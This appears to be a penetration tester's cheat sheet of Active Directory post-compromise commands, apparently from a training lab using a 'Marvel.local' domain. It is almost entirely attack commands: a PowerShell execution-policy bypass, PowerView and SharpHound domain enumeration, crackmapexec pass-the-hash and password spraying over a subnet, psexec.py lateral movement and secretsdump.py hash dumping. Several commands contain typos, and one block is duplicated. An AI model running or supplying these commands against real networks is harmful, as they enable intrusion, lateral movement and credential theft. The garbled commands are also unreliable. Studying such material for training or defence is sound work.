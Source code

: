- Post Compromise Active Directory
    
    ```powershell
    
    powershell -ep bypass
    
    . .\Powerview.ps1
    https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993
    Get-NetDomain
    Get-NetDomainController
    Get-DomainPolicy
    (Get-DomainPolicy)."System Access"
    Get-NetUser
    Get-NetUser | select cn
    Get-UserProperty -Properties pwdlastset
    Get-UserProperty 
    Get-NetComputer -FullData
    Get-NetGroup 
    Get-NetGroupMember 
    Invoke-ShareFinder
    Get-NetGPO | select displayname, whenchanged
    
    ```
    
- BloodHound
    
    ```powershell
    powershell -ep bypass
    
    . .\Sharphound.ps1
    Invoke-Bloodhound -CollectionMethod All - Domain Marvel.local -ZipFileName file.zip
    
    Attack Machine
    crackmapexec 10.10.10.10 -u fcastle -H asilufhkadsbv265dfgag --local
    crackmapexec smb 192.168.0.0/24 -u fcastle -d Marvel.local -p Password1
    
    pseexec.py 192.198.57.1 -facstle -d Marvel.local -p Password --sam
    
    pseexec.py marvel/fcastle:password@192.168.57.142
    
    ```
    
- Cracexec
    
    ```powershell
    Attack Machine
    crackmapexec 10.10.10.10 -u fcastle -H asilufhkadsbv265dfgag --local
    crackmapexec smb 192.168.0.0/24 -u fcastle -d Marvel.local -p Password1
    
    pseexec.py 192.198.57.1 -facstle -d Marvel.local -p Password --sam
    
    pseexec.py marvel/fcastle:password@192.168.57.142
    
    ```
    
- Hashdump
    
    ```bash
    secretsdump.py marvel/fcastle:password@192.168.57.12
    